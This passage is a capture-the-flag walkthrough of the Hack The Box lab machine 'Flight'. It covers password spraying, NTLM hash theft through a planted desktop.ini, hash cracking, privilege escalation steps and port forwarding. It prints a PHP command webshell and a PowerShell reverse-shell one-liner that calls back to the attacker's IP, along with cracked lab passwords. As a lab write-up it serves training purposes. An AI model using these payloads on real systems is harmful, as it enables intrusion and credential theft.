LDAP 10.129.228.120 389 G0 D.Truff 2022-09-22 20:08:22 22 Project Manager
LDAP 10.129.228.120 389 G0 V.Stevens 2022-09-22 20:08:22 22 Secretary
LDAP 10.129.228.120 389 G0 svc_apache 2022-09-22 20:08:23 0 Service Apache web
LDAP 10.129.228.120 389 G0 O.Possum 2022-09-22 20:08:23 22 Helpdesk
No credentials found or any other useful info on the LDAP description
Foothold
Password spraying
using this wordlist
We have our user list, and for our password spraying attempt we can use a very short list of statistically likely passwords. It's worth appending the discovered usernames to this list, as having a password of the username is unfortunately a common practice.
wget [https://raw.githubusercontent.com/insidetrust/statistically-likely-](https://raw.githubusercontent.com/insidetrust/statistically-likely-)usernames/master/weak-corporate-passwords/english-basic.txt
cat users.txt >> english-basic.txt
Also add the password of svc_apache to check for password reuse
now that we have the valid users, lets do some password spraying
great! it appears that password reuse is taking place and user S.Moon had the same password as svc_apache ! creds obtained:
Checking where we can login with S.Moon creds
Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check
[*] Checking if winrm port 5985 is open on flight.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.228.120 5985 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM 10.129.228.120 5985 G0 [-] flight.htb\S.Moon:S@Ss!K@*t13
[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP 10.129.228.120 389 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.228.120 135 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC 10.129.228.120 135 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed
We can login towards SMB LDAP RPC services, here we go again…
SMB enumeration as S.Moon
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\S.Moon:S@Ss!K@*t13
SMB 10.129.228.120 445 G0 [*] Enumerated shares
SMB 10.129.228.120 445 G0 Share Permissions Remark
SMB 10.129.228.120 445 G0 ----- ----------- ------
SMB 10.129.228.120 445 G0 ADMIN$ Remote Admin
SMB 10.129.228.120 445 G0 C$ Default share
SMB 10.129.228.120 445 G0 IPC$ READ Remote IPC
SMB 10.129.228.120 445 G0 NETLOGON READ Logon server share
SMB 10.129.228.120 445 G0 Shared READ,WRITE
SMB 10.129.228.120 445 G0 SYSVOL READ Logon server share
SMB 10.129.228.120 445 G0 Users READ
SMB 10.129.228.120 445 G0 Web READ
Thats different now, this user was also WRITE permissions to the share Shared
First lets inspect the share,
smb: \> ls
. D 0 Fri Aug 22 19:55:34 2025
.. D 0 Fri Aug 22 19:55:34 2025
5056511 blocks of size 4096. 1189577 blocks available
it is empty
Leaking another user’s NTLM hash
but since we have WRITE permissions, we might have to upload sth there
Found this: https://hacktricks.boitatech.com.br/windows/ntlm/places-to-steal-ntlm-creds#desktop.ini
Create a file called desktop.ini
echo [.ShellClassInfo] > desktop.ini
echo 'IconResource=\\10.10.14.180\thebestshareever' >> desktop.ini
Navigate to the share and upload the file:
smbclient //flight.htb/shared -U 's.moon%S@Ss!K@*t13'
smb: \> put desktop.ini
putting file desktop.ini as \desktop.ini (2.4 kb/s) (average 2.4 kb/s)
Now start the responder:
then navigate to the share again:
└──╼ [★]$ smbclient //flight.htb/shared -U 's.moon%S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \>
aand we got the NTLM hash of another user, c.bum !
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
[SMB] NTLMv2-SSP Hash : c.bum::flight.htb:17d5b761f4a33f2f:5DB137F84725B322F1D060C8911A33C8:010100000000000080A156AD6613DC01DB53B3184F0649420000000002000800460057005300500001001E00570049004E002D0034005700540030004300450052004F0041005000430004003400570049004E002D0034005700540030004300450052004F004100500043002E0046005700530050002E004C004F00430041004C000300140046005700530050002E004C004F00430041004C000500140046005700530050002E004C004F00430041004C000700080080A156AD6613DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000
Now similarly with what we did earlier, we have to crack it
Cracking NTLM hash
place the hash on a file
echo 'c.bum::flight.htb:17d5b761f4a33f2f:5DB137F84725B322F1D060C8911A33C8:010100000000000080A156AD6613DC01DB53B3184F0649420000000002000800460057005300500001001E00570049004E002D0034005700540030004300450052004F0041005000430004003400570049004E002D0034005700540030004300450052004F004100500043002E0046005700530050002E004C004F00430041004C000300140046005700530050002E004C004F00430041004C000500140046005700530050002E004C004F00430041004C000700080080A156AD6613DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000' > cbum_hash
then use john to crack it:
it was successful:
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Tikkycoll_431012284 (c.bum)
1g 0:00:00:04 DONE (2025-08-22 13:18) 0.2127g/s 2241Kp/s 2241Kc/s 2241KC/s TinyMutt69..Tiffani29
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
creds obtained:
Checking where we can login with c.bum creds
Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check
[*] Checking if winrm port 5985 is open on flight.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.228.120 5985 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM 10.129.228.120 5985 G0 [-] flight.htb\c.bum:Tikkycoll_431012284
[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\c.bum:Tikkycoll_431012284
[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP 10.129.228.120 389 G0 [+] flight.htb\c.bum:Tikkycoll_431012284
[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.228.120 135 G0 [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC 10.129.228.120 135 G0 [+] flight.htb\c.bum:Tikkycoll_431012284
[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed
It seems we can login to: SMB LDAP RPC services, lets enumerate further…
SMB enumeration as C.Bum
SMB 10.129.228.120 445 G0 [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB 10.129.228.120 445 G0 [+] flight.htb\c.bum:Tikkycoll_431012284
SMB 10.129.228.120 445 G0 [*] Enumerated shares
SMB 10.129.228.120 445 G0 Share Permissions Remark
SMB 10.129.228.120 445 G0 ----- ----------- ------
SMB 10.129.228.120 445 G0 ADMIN$ Remote Admin
SMB 10.129.228.120 445 G0 C$ Default share
SMB 10.129.228.120 445 G0 IPC$ READ Remote IPC
SMB 10.129.228.120 445 G0 NETLOGON READ Logon server share
SMB 10.129.228.120 445 G0 Shared READ,WRITE
SMB 10.129.228.120 445 G0 SYSVOL READ Logon server share
SMB 10.129.228.120 445 G0 Users READ
SMB 10.129.228.120 445 G0 Web READ,WRITE
This user has WRITE access to the Web share, sth all the previously found user did not have, lets dive in
inside there are 2 folders, each one containing the source code for each page we found on the web app earlier
smb: \> ls
. D 0 Fri Aug 22 20:22:54 2025
.. D 0 Fri Aug 22 20:22:54 2025
flight.htb D 0 Fri Aug 22 20:22:00 2025
school.flight.htb D 0 Fri Aug 22 20:22:00 2025
5056511 blocks of size 4096. 1188972 blocks available
The flight.htb folder contains:
smb: \flight.htb\> ls
. D 0 Fri Aug 22 20:22:00 2025
.. D 0 Fri Aug 22 20:22:00 2025
css D 0 Fri Aug 22 20:22:00 2025
images D 0 Fri Aug 22 20:22:00 2025
index.html A 7069 Wed Feb 23 23:58:10 2022
js D 0 Fri Aug 22 20:22:00 2025
5056511 blocks of size 4096. 1188972 blocks available
The school.flight.htb contains:
smb: \school.flight.htb\> ls
. D 0 Fri Aug 22 20:22:00 2025
.. D 0 Fri Aug 22 20:22:00 2025
about.html A 1689 Mon Oct 24 22:54:45 2022
blog.html A 3618 Mon Oct 24 22:53:59 2022
home.html A 2683 Mon Oct 24 22:56:58 2022
images D 0 Fri Aug 22 20:22:00 2025
index.php A 2092 Thu Oct 27 02:59:25 2022
lfi.html A 179 Thu Oct 27 02:55:16 2022
styles D 0 Fri Aug 22 20:22:00 2025
5056511 blocks of size 4096. 1188972 blocks available
Since we have WRITE permissions on the whole share, we can similarly upload sth here, maybe sth like a reverse shell.
What kind of revshell tho? hmm lets think smart here, these directories belong to the webapp, and the webapp runs also php.
So any php file we upload there will be executed, this should be our goal, uploading a php revshell.
found this php shell: php_cmd from reverse shell generator, and also powershell#2 for the rev shell, then started listener and got shell:
Uploading web shell
From smb client
upload the php webshell using the “put” command on flight.htb or school.flight.htb
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
once prompted with command line while accessing the phpshell from browser,

execute this
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
started listerner
Shell as svc_apache
and got a shell as svc_apache

User privileges (svc_apache)
Privilege Name Description State
============================= ============================== ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
Those privileges do not help us
Group membership of svc_apache
User name svc_apache
Full Name
Comment Service Apache web
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 9/22/2022 1:08:23 PM
Password expires Never
Password changeable 9/23/2022 1:08:23 PM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 8/23/2025 12:32:30 PM
Logon hours allowed All
Local Group Memberships
Global Group memberships *Domain Users
The command completed successfully.
Nothing interesting, lets check other users:
Group membership of C.Bum
User name C.Bum
Full Name
Comment Senior Web Developer
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 9/22/2022 1:08:47 PM
Password expires Never
Password changeable 9/23/2022 1:08:47 PM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 9/22/2022 2:50:24 PM
Logon hours allowed All
Local Group Memberships
Global Group memberships *Domain Users *WebDevs
The command completed successfully.
Interesting, this user is member of WebDevs and the comment is Senior Web Developer lets keep that in mind for later.
Impersonate C.Bum as svc_apache
Those privileges and group membership does not provide any obvious attack path, but lets take a moment here and think, what we already know?
- We currently have shell as
svc_apache - We know the password of another user (C.Bum)
Based on those 2 statements, we meet the requirements to impersonate user C.Bum! So when we have access to one user, and know the creds of another one we can impersonate that user.
Why does this work?
- There is a logon feature called "logon with supplied credentials”, where basically If you can type the correct password, Windows will create a new logon session under that user and spawn the requested process.
- One tool that can achieve that is
Runas- It just performs a normal secondary logon with the supplied credentials.
- The new process runs in the security context of the target user.
- You don’t "impersonate" at the token level (thread-level impersonation) — you’re logging on as them for a new process.
- If the account has the "Deny log on locally" or "Deny log on through Remote Desktop" rights applied, then
runaswill fail because Windows enforces those logon restrictions.-
For example:
🔹 1. What
runasdoes- When you run
runas /user:DOMAIN\User cmd.exeand type a password:- Windows calls
LogonUser()with those credentials. - If successful, a new logon session and new primary token for that user is created.
- Then Windows calls
CreateProcessAsUser()to start a process under that token.
- Windows calls
👉 This means the process (e.g.
cmd.exe) is running as that user, with their primary token.This is not impersonation at all — it’s just process creation under a different user.
🔹 2. What “impersonation” means in Windows
- Impersonation in Windows is a thread-level concept:
- A thread temporarily “borrows” another user’s access token to act on their behalf.
- For example, a web server thread impersonates a client so it can access files on their behalf.
- This requires
SeImpersonatePrivilege(or in older casesSeAssignPrimaryTokenPrivilege) to be useful in arbitrary scenarios.
👉 This is called token impersonation, not process-level logon.
🔹 3. Process-level impersonation?
- The term “process-level impersonation” isn’t official in Windows.
- What people sometimes mean by it is: “a whole process runs as another user”.
- But in Windows terms, that is not “impersonation” — it is just running a process with a different primary token (via
runas, scheduled tasks,CreateProcessWithLogonW, etc.).
✅ runas vs impersonation:
runas= new process with another user’s primary token (not impersonation).- Impersonation = a thread borrows another user’s token temporarily (requires
SeImpersonatePrivilege). - To conclude, If you (with permission) have a password for another account, you can
runasit regardless of your current privilege level — unless Group Policy explicitly restricts local logon.
- When you run
-
Download runas
Get runas from the attacker machine
or just upload it from smbclient earlier (much easier)
Run runas
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
.\RunasCs.exe c.bum Tikkycoll_431012284 whoami
then on another shell execute whoami, lets create a connection towards our host and catch the reverse shell
Shell as C.Bum

successful! got user flag: 4b75d3d79195394f018dccff2ef81592
proof:

that was really tough.. lets move on to privesc
Privesc
Investigating the filesystem
Lets navigate to the filesystem to check for anything usefull:
The C: directory:
Directory: C:\
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 8/23/2025 2:27 PM inetpub
d----- 6/7/2022 6:39 AM PerfLogs
d-r--- 10/21/2022 11:49 AM Program Files
d----- 7/20/2021 12:23 PM Program Files (x86)
d----- 10/28/2022 1:21 PM Shared
d----- 9/22/2022 12:28 PM StorageReports
d-r--- 9/22/2022 1:16 PM Users
d----- 10/21/2022 11:52 AM Windows
d----- 9/22/2022 1:16 PM xampp
when we got the shell initially as svc_apache, we where inside xampp folder in this path: “"C:\xampp\htdocs\school.flight.htb\”. The xampp folder inside has multiple xampp related files and i found nothing interesting there
Regarding the Users folder, it contains the user directories, i can only access svc_apache’s and inside i found nothing of value.
As for other folders like PerfLogs, Program Files & (86) , Shared , StorageReports , Windows nothing useful was found
Last but not least, i noticed the presence of inetpub folder, which indicates that IIS (Internet Information Services) has been installed, we will keep that in mind for later.
For now, lets run winpeas to see if it we can find sth more helpful, or even find more information about that IIS server running
Using winpeas
Upload winpeas on this dir “C:\xampp\htdocs\flight.htb”
or we could just upload it via the smbclient session we had earlier (easier)
For some reason, even tho i run it on the shell, the results were printed on the webshell, also it took a while to run so be patient.
From the very large output, nothing stood out more than the listening ports, thus i decided to focus there especially due to the fact that we earlier found indicators of the presence of an IIS server running, and one of those ports below could be used by that server.

Listening ports
Lets take a more detailed look at the listening ports via this command:
PROTOCOL LOCAL ADDRESS Foreign Address State PID
TCP 0.0.0.0:80 0.0.0.0:0 LISTENING 5284
TCP 0.0.0.0:88 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 912
TCP 0.0.0.0:389 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:443 0.0.0.0:0 LISTENING 5284
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:464 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:593 0.0.0.0:0 LISTENING 912
TCP 0.0.0.0:636 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:3268 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:3269 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:5985 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:8000 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:9389 0.0.0.0:0 LISTENING 2980
TCP 0.0.0.0:47001 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:49664 0.0.0.0:0 LISTENING 488
TCP 0.0.0.0:49665 0.0.0.0:0 LISTENING 1204
TCP 0.0.0.0:49666 0.0.0.0:0 LISTENING 1744
TCP 0.0.0.0:49667 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:49673 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:49674 0.0.0.0:0 LISTENING 648
TCP 0.0.0.0:49684 0.0.0.0:0 LISTENING 628
TCP 0.0.0.0:49695 0.0.0.0:0 LISTENING 3028
TCP 0.0.0.0:49725 0.0.0.0:0 LISTENING 3052
What is our goal here?? First i found some interesting stuff about PID = 4
PID 4 in Windows
- PID
4is the System process (the kernel). - When you see
netstat -anoorGet-NetTCPConnectionshowing PID 4, it usually means a kernel driver or Windows component is the actual socket owner. - Example: SMB (port 445), RPC, or even some HTTP listeners (HTTP.sys) can appear as PID 4.
But which port corresponds to the IIS server? how can we know without doing port forwarding and navigating to the webpage manually?
Correlating listening ports with the IIS server
The command below queries the HTTP Server (HTTP.sys) kernel driver and shows the current state of all HTTP-related services and their request queues.
Snapshot of HTTP service state (Server Session View):
-----------------------------------------------------
Server session ID: FF00000120000001
Version: 1.0
State: Active
Properties:
Max bandwidth: 4294967295
Timeouts:
Entity body timeout (secs): 120
Drain entity body timeout (secs): 120
Request queue timeout (secs): 120
Idle connection timeout (secs): 120
Header wait timeout (secs): 120
Minimum send rate (bytes/sec): 150
URL groups:
URL group ID: FE00000140000001
State: Active
Request queue name: Request queue is unnamed.
Properties:
Max bandwidth: inherited
Max connections: inherited
Timeouts:
Timeout values inherited
Number of registered URLs: 2
Registered URLs:
HTTP://+:5985/WSMAN/
HTTP://+:47001/WSMAN/
Server session ID: FD00000120000001
Version: 2.0
State: Active
Properties:
Max bandwidth: 4294967295
Timeouts:
Entity body timeout (secs): 120
Drain entity body timeout (secs): 120
Request queue timeout (secs): 65535
Idle connection timeout (secs): 120
Header wait timeout (secs): 120
Minimum send rate (bytes/sec): 240
URL groups:
URL group ID: FF00000040000001
State: Active
Request queue name: DefaultAppPool
Properties:
Max bandwidth: inherited
Max connections: 4294967295
Timeouts:
Entity body timeout (secs): 120
Drain entity body timeout (secs): 120
Request queue timeout (secs): 65535
Idle connection timeout (secs): 120
Header wait timeout (secs): 0
Minimum send rate (bytes/sec): 0
Logging information:
Log directory: C:\inetpub\logs\LogFiles\W3SVC1
Log format: 0
Authentication Configuration:
Authentication schemes enabled:
Number of registered URLs: 1
Registered URLs:
HTTP://127.0.0.1:8000:127.0.0.1/
Request queues:
Request queue name: Request queue is unnamed.
Version: 1.0
State: Active
Request queue 503 verbosity level: Basic
Max requests: 1000
Number of active processes attached: 1
Process IDs:
3416
Request queue name: DefaultAppPool
Version: 2.0
State: Active
Request queue 503 verbosity level: Limited
Max requests: 1000
Number of active processes attached: 0
Controller process ID: 3408
Process IDs:
In the above output, the presence of the IIS server is verified according to these 2 indicators
Request queue name: DefaultAppPool
Log directory: C:\inetpub\logs\LogFiles\W3SVC1
URL group ID: FF00000040000001
State: Active
Request queue name: DefaultAppPool
Properties:
Max bandwidth: inherited
Max connections: 4294967295
Timeouts:
Entity body timeout (secs): 120
Drain entity body timeout (secs): 120
Request queue timeout (secs): 65535
Idle connection timeout (secs): 120
Header wait timeout (secs): 0
Minimum send rate (bytes/sec): 0
Logging information:
Log directory: C:\inetpub\logs\LogFiles\W3SVC1
Log format: 0
Authentication Configuration:
Authentication schemes enabled:
Number of registered URLs: 1
Registered URLs:
HTTP://127.0.0.1:8000:127.0.0.1/
So as seen above, the associated port is 8000
I then automated the process for future reference, using my custom powershell script to identify IIS presence with associated port:
.\listenports.ps1
[+] Collecting IIS servicestate...
[+] IIS-registered ports found:
Port URL AppPool
---- --- -------
unknown HTTP://127.0.0.1:8000:127.0.0.1/ DefaultAppPool
Write-Host "`n[+] Collecting IIS servicestate..."
$servicestate = netsh http show servicestate
$results = @()
$currentQueue = $null
foreach ($line in $servicestate) {
if ($line -match "Request queue name:\s+(.*)") {
$currentQueue = $Matches[1]
}
elseif ($line -match "^\s*HTTP") {
# Skip unnamed queues (non-IIS)
if ($currentQueue -eq "Request queue is unnamed.") { continue }
$url = $line.Trim()
# Extract port number from URL (after last :)
if ($url -match ":(\d+)/") {
$port = $Matches[1]
} else {
$port = "unknown"
}
$results += [PSCustomObject]@{
Port = $port
URL = $url
AppPool = $currentQueue
}
}
}
if ($results) {
Write-Host "[+] IIS-registered ports found:`n"
$results | Sort-Object Port | Format-Table -AutoSize
} else {
Write-Host "[!] No IIS ports found in servicestate."
}
Port forwarding
Since we have found earlier that port 8000 was bound to an IIS server, lets port forward towards our attacker machine to get access to it
Using chisel
- Download chisel
- then run local server for transferring
- on target host retrieve the executable
- on attacker machine:
- inside the target host:
The screenshot below shows that the port forwarding was successful:

Next visit http://127.0.0.1:8001 , and there is the webpage:
